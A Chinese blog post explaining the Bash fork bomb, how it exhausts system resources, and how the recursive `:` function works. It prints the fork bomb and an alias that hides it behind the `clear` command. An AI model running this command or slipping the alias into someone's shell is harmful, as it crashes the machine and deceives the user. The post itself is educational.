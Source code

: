 ```yaml
---
title: fork 炸弹
thumbnail: 'https://cdn.sguan.top/markdown/20200827140658.png'
disqusId: 0fd303f3-7499-4f3a-ae52-e328a5548589
categories:
  - security
tags:
  - security
  - fork bomb
date: 2020-08-26 21:55:04
---
```


偶然看到一串奇怪的命令，手贱执行了一下，没想到系统直接卡死

<!-- more -->

## 代码

```bash
alias clear=':(){ :|: &};:'
```

一次偶然的机会，我看到了上面这段代码，然后手贱执行了一下：

```
:(){ :|: &};:
```

电脑直接就卡死了，过了几分钟，我才回过神来，是这段代码导致的。

网上搜了一下，这段代码就是著名的 `fork bomb` 即 fork 炸弹，其会以指数级的速度快速创建线程，迅速将整个系统的资源耗尽，最终导致系统卡死。

fork 炸弹一旦引爆，基本只能重启。

## 代码解析

最开是看到这段代码一脸懵逼，怎么就卡死了呢，网上搜了一下，大致了解了其工作流程。

在这一行代码中，我们定义了一个名为 `:` 的函数：

```bash
:(){ :|: &};:
```

把 `:` 换成一个常见的函数名，比如 `bomb`，那么上面这段代码可以翻译为：

```bash
bomb(){ bomb|bomb &};bomb
```

再展开一下：

```bash
bomb(){ 
    bomb|bomb &
};
bomb
```

这样看起来就直观多了，前三行定义了一个函数，第四行调用了该函数。

而函数的行为是：后台的、通过管道递归调用自身两次

由于管道操作会创建新的进程，所以每次调用函数都会产生两份拷贝，这样函数就会呈指数级的增长，可以在极短的时间内耗光计算机资源。

## 参考链接

[fork 炸弹](https://zh.wikipedia.org/wiki/Fork%E7%82%B8%E5%BC%B9)
